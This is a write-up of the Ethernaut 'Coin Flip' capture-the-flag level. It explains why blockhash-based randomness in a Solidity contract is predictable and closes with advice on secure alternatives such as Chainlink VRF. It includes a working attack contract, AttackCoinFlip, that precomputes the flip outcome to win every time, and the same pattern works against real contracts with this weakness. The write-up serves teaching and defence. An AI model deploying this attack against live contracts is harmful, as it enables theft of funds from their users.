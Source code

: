 # Coin Flip

![https://ethernaut.openzeppelin.com/imgs/BigLevel3.svg](https://ethernaut.openzeppelin.com/imgs/BigLevel3.svg)

# Objectives

Claim ownership of the contract

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

Things that might help

- See the Help page above, section "Beyond the console"

# Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

# Analysis I

So this challenge requires us to guess the side of the coin after each flip. Let’s see how the coin flip works in this contract.

The `constructor()` sets the number of wins to `0`, we need to guess the correct answer `0 times consecutively in order to pass this level. Let's focus on the only function `flip()` -

## `flip()`

```solidity
function flip(bool _guess) public returns (bool) {
  uint256 blockValue = uint256(blockhash(block.number - 1));

  if (lastHash == blockValue) {
    revert();
  }

  lastHash = blockValue;
  uint256 coinFlip = blockValue / FACTOR;
  bool side = coinFlip == 1 ? true : false;

  if (side == _guess) {
    consecutiveWins++;
    return true;
  } else {
    consecutiveWins = 0;
    return false;
  }
}
```

The function takes boolean value as an input, which is where we guess the side of the coin. It declared the `blockValue` by subtracting the `block number` with `1` and typecasted it to `uint256`. 

To ensure the we don’t flip the coin twice in the same block number, it checks the current blockValue against the `lastHash` which is set after every flip. Now this is where it gets interesting,

```solidity
uint256 coinFlip = blockValue / FACTOR;
bool side = coinFlip == 1 ? true : false;
```

The algorithm of flipping the coin seems simple. All it doing is dividing the `blockValue` by the variable `FACTOR`, which is set to a random number, `57896044618658097711785492504343953926634992332820282019728792003956564819968`. If we convert it to Hexadecimal, it gives us `0x8000000000000000000000000000000000000000000000000000000000000000`. The probability that the hash of some random block is higher or lower than this number is 50%, so it makes sense to call it a **coin flip**, where the coin is given by the previous block hash. So why this is interesting?

What this `uint256 coinFlip = blockValue / FACTOR;` calculation trying to do is generating `RANDOM` numbers. However, computer are unable to generate true random numbers. Computers are combining different things in order to create numbers that people can’t predict easily. But if we know the process that computer followed to generate the random number, we can easily predict it and end up with the same number.

Ethereum does not provide any function to generate random numbers. As a result, programmers have to write their own algorithms for randomness or uses Oracles to import random numbers outside the Ethereum Network.

This public `flip` function calls the `blockhash` in order to create a hash of the current blocks. The variable `blockValue` stores the `blockhash` of the current `block number` and then divide by the long number `FACTOR`. Then, it returns a Boolean result. You can read more about [Blocks here](https://ethereum.org/en/developers/docs/blocks/). Now that we understand the entire process of generating the randomness used in the contract, what if we try to repeat the process of creating random number in a malicious smart contract and then send the pseudo-anonymous result as our `guess`?

# AntiSec

Let’s first import the `CoinFlip` contract in our `Remix` IDE and import it to our malicious smart-contract `AttackCoinFlip`. We will recreate the exact `flip` function however, we will modify the `blockhash` function to use the previous block as an input, as block has already been mined.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./CoinFlip.sol";
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeMath.sol";

contract AttackCoinFlip {
  using SafeMath for uint256;
  CoinFlip public coinFlipAddress;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor(address _coinFlipAddress) {
      coinFlipAddress = CoinFlip(_coinFlipAddress);
  }

  function psychicAttack() public returns (bool) {
      uint256 blockValue = uint256(blockhash(block.number - 1));
      uint256 coinFlip = uint256(blockValue / FACTOR);
      bool side = coinFlip == 1 ? true : false;
      coinFlipAddress.flip(side);
  }

}
```

Now we just need to compile and call the `psychicAttack` function from our malicious smart contract to the `CoinFlip` smart contract’s `flip` function. After that all we need to do is just spam our `psychicAttack` function 10 times, until we reach 10 consecutive wins. You can check how many wins you have by checking on Ethernaut console - 

```jsx
await contract.consecutiveWins()
```

# Key Takeaways

1. Generating random numbers in solidity can be tricky, Currently there isn’t any native way to generate them, and everything we use in smart contracts is publicly visible, including the local and state variables marked as `Private`. Miners also have control over things like `blockhases`, `timestamps`, and whether to include certain transactions - which allows them to bias these values in their favor.
2. It is not practically a good idea to generate random numbers using these `blockhases`, `timestamps`, `state` or `global` variables.
3. To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/vrf/v2/subscription/examples/get-a-random-number), which uses an Oracle, the `LINK` token and on-chain contract to verify that the number is truly random.
4. Some other options include using Bitcoin block headers (verified through [BTC Relay](http://btcrelay.org/), [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/))
